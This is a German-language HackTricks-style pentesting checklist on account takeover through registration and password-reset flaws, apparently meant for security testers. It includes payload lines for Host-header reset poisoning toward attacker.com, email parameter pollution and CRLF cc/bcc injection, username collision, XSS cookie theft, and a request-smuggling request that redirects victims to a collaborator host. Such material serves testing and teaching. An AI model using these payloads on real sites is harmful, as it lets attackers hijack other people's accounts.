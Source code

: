 # Registrierung & Übernahmeanfälligkeiten

{{#include ../banners/hacktricks-training.md}}

## Registrierung Übernahme

### Doppelte Registrierung

- Versuchen Sie, mit einem vorhandenen Benutzernamen zu generieren
- Überprüfen Sie verschiedene E-Mails:
- Großbuchstaben
- \+1@
- fügen Sie einen Punkt in der E-Mail hinzu
- Sonderzeichen im E-Mail-Namen (%00, %09, %20)
- Setzen Sie schwarze Zeichen nach der E-Mail: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Benutzernamen Enumeration

Überprüfen Sie, ob Sie herausfinden können, ob ein Benutzername bereits in der Anwendung registriert wurde.

### Passwort-Richtlinie

Erstellen Sie einen Benutzer und überprüfen Sie die Passwort-Richtlinie (überprüfen Sie, ob Sie schwache Passwörter verwenden können).\
In diesem Fall können Sie versuchen, Anmeldeinformationen zu bruteforcen.

### SQL-Injection

[**Überprüfen Sie diese Seite** ](sql-injection/index.html#insert-statement), um zu lernen, wie man Kontenübernahmen versucht oder Informationen über **SQL-Injections** in Registrierungsformularen extrahiert.

### Oauth-Übernahmen

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### SAML-Anfälligkeiten

{{#ref}}
saml-attacks/
{{#endref}}

### E-Mail ändern

Wenn registriert, versuchen Sie, die E-Mail zu ändern und überprüfen Sie, ob diese Änderung korrekt validiert wird oder ob Sie sie auf beliebige E-Mails ändern können.

### Weitere Überprüfungen

- Überprüfen Sie, ob Sie **wegwerfbare E-Mails** verwenden können
- **Lange** **Passwörter** (>200) führen zu **DoS**
- **Überprüfen Sie die Ratenlimits bei der Kontoerstellung**
- Verwenden Sie username@**burp_collab**.net und analysieren Sie den **Callback**

## **Passwortzurücksetzungsübernahme**

### Passwortzurücksetzung Token-Leck über Referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Fordern Sie die Passwortzurücksetzung an Ihre E-Mail-Adresse an
2. Klicken Sie auf den Link zur Passwortzurücksetzung
3. Ändern Sie das Passwort nicht
4. Klicken Sie auf beliebige 3rd Party-Websites (z.B.: Facebook, Twitter)
5. Fangen Sie die Anfrage im Burp Suite Proxy ab
6. Überprüfen Sie, ob der Referer-Header das Passwortzurücksetzungstoken leckt.

### Passwortzurücksetzung Vergiftung <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Fangen Sie die Passwortzurücksetzungsanfrage in Burp Suite ab
2. Fügen Sie die folgenden Header in Burp Suite hinzu oder bearbeiten Sie sie: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Leiten Sie die Anfrage mit dem modifizierten Header weiter\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Suchen Sie nach einer URL zur Passwortzurücksetzung basierend auf dem _Host-Header_ wie: `https://attacker.com/reset-password.php?token=TOKEN`

### Passwortzurücksetzung über E-Mail-Parameter <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```bash
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR bei API-Parametern <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Angreifer müssen sich mit ihrem Konto anmelden und zur Funktion **Passwort ändern** gehen.
2. Starten Sie Burp Suite und intercepten Sie die Anfrage.
3. Senden Sie sie an den Repeater-Tab und bearbeiten Sie die Parameter: Benutzer-ID/E-Mail\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Schwaches Passwort-Zurücksetzen-Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Das Passwort-Zurücksetzen-Token sollte zufällig generiert und jedes Mal einzigartig sein.\
Versuchen Sie zu bestimmen, ob das Token abläuft oder ob es immer dasselbe ist. In einigen Fällen ist der Generierungsalgorithmus schwach und kann erraten werden. Die folgenden Variablen könnten vom Algorithmus verwendet werden.

- Zeitstempel
- Benutzer-ID
- E-Mail des Benutzers
- Vorname und Nachname
- Geburtsdatum
- Kryptographie
- Nur Zahlen
- Kleine Token-Sequenz (Zeichen zwischen \[A-Z,a-z,0-9])
- Token-Wiederverwendung
- Ablaufdatum des Tokens

### Leckendes Passwort-Zurücksetzen-Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Lösen Sie eine Passwort-Zurücksetzen-Anfrage über die API/UI für eine bestimmte E-Mail aus, z.B.: test@mail.com
2. Überprüfen Sie die Serverantwort und suchen Sie nach `resetToken`
3. Verwenden Sie dann das Token in einer URL wie `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Passwort-Zurücksetzen über Benutzernamen-Kollision <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registrieren Sie sich im System mit einem Benutzernamen, der identisch mit dem Benutzernamen des Opfers ist, jedoch mit Leerzeichen vor und/oder nach dem Benutzernamen. z.B.: `"admin "`
2. Fordern Sie ein Passwort-Zurücksetzen mit Ihrem böswilligen Benutzernamen an.
3. Verwenden Sie das Token, das an Ihre E-Mail gesendet wurde, und setzen Sie das Passwort des Opfers zurück.
4. Melden Sie sich mit dem neuen Passwort beim Konto des Opfers an.

Die Plattform CTFd war anfällig für diesen Angriff.\
Siehe: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Kontoübernahme über Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Finden Sie ein XSS innerhalb der Anwendung oder einer Subdomain, wenn die Cookies auf die Hauptdomain beschränkt sind: `*.domain.com`
2. Lecken Sie das aktuelle **Sitzungscookie**
3. Authentifizieren Sie sich als der Benutzer mit dem Cookie

### Kontoübernahme über HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Verwenden Sie **smuggler**, um den Typ des HTTP Request Smuggling (CL, TE, CL.TE) zu erkennen\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Erstellen Sie eine Anfrage, die `POST / HTTP/1.1` mit den folgenden Daten überschreibt:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` mit dem Ziel, die Opfer zu burpcollab umzuleiten und ihre Cookies zu stehlen\
3\. Die endgültige Anfrage könnte wie folgt aussehen
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone-Berichte, die diesen Fehler ausnutzen\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Kontoübernahme über CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Erstellen Sie ein Payload für das CSRF, z.B.: „HTML-Formular mit automatischer Übermittlung für eine Passwortänderung“
2. Senden Sie das Payload

### Kontoübernahme über JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token könnte verwendet werden, um einen Benutzer zu authentifizieren.

- Bearbeiten Sie das JWT mit einer anderen Benutzer-ID / E-Mail
- Überprüfen Sie die schwache JWT-Signatur


{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Referenzen

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
